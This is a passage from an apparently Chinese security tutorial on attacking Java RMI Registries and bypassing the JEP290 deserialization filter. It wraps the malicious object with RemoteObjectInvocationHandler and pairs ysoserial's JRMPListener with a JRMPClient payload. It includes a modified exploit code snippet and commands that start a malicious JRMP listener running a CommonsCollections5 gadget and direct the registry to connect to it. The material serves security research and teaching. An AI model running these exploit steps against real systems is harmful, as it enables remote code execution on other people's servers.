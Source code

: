 所以，这个payload就是用来打Register，让它**发起一个DGC dirty请求**。

我们还需要讨论一个问题，这个Payload是否在JEP290的白名单内，我们将Payload分为两部分看，一个是前面恶意对象生成的部分，一个是后面包装恶意对象的部分。

对于恶意对象部分，由于UnicastRef采用的readExternal方法反序列化，它不会递归反序列化所有属性，所以只要UnicastRef可以通过白名单，即可绕过（这一点并不确定，还需后续研究补充），显然这个恶意对象是可以通过白名单的。

对于包装恶意对象的部分，之前我们采用AnnotationInvocationHandler包装恶意对象，会被反序列化过滤器拦截，我们看到上面payload的解决方案是使用RemoteObjectInvocationHandler包装恶意对象，这是因为该类：1. 实现了Remote接口，可以过白名单；2.实现了序列化接口；3。实现了InvocationHandler可以通过动态代理包装恶意对象。

对于恶意对象的封装其实还有几个方案：

* 不封装，类似于利用lookup和unbind攻击Register，自己改一个不限制传入参数类型的方法出来
* 找一个实现Remote接口的类，把恶意对象作为它的属性（RemoteObjectInvocationHandler本身就满足此要求，所以实际上可以不用动态代理封装）
* 自定义一个类（参见其他问题的补充）

###### ysoserial.exploit.JRMPListener

> 先阅读后文的对JRMP客户端反序列化攻击。

JEP290默认情况下，只为RMI Register和DGC的服务端开启了。此时就可以结合上述两个步骤打JEP290的Register。

##### 使用ysoserial进行攻击

先修改ysoserial的ysoserial.exploit.RMIRegistryExploit

```java
// exploit方法
// 将原来的Gadgets.createMemoitizedProxy(Gadgets.createMap(name, payload), Remote.class);替换为下述代码
 Remote remote;
 if (payloadClass.isAssignableFrom(JRMPClient.class)){
    // 在JEP290以后，过滤了AnnationInvacationHandler
    // payloads.JRMPClient已经将恶意对象转为Remote
    remote = (Remote) payload;
}else {
    // 调用AnnationInvacationHandler封装了恶意对象，在动态代理转换为Remote
    remote = Gadgets.createMemoitizedProxy(Gadgets.createMap(name, payload), Remote.class);
}
```

```shell
# 打开JRMP恶意服务端
# 注意这里利用链的是否适用于当前java版本
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1999 CommonsCollections5 "calc.exe"
# 向Register发送恶意序列化对象，使其发起对恶意JRMP的连接
# 前一个ip和端口是要打的register，后面的host:port是开启JRMP恶意服务端的host和端口
java -cp ysoserial-all.jar ysoserial.payloads.RMIRegistryExploit JRMPClient 127.0.0.1 1099 127.0.0.1:1999
```

#### jdk8u141<=version<jdk8u231

##### 修复方式checkAccess

我们在jdk8u141下使用之前绕过JEP290的exp打register（**注意攻击的exp和register分别部署在两个服务器上**），抛出异常，而且register没有弹出计算机

![image-20240829101102326](./images/image-20240829101102326.png)
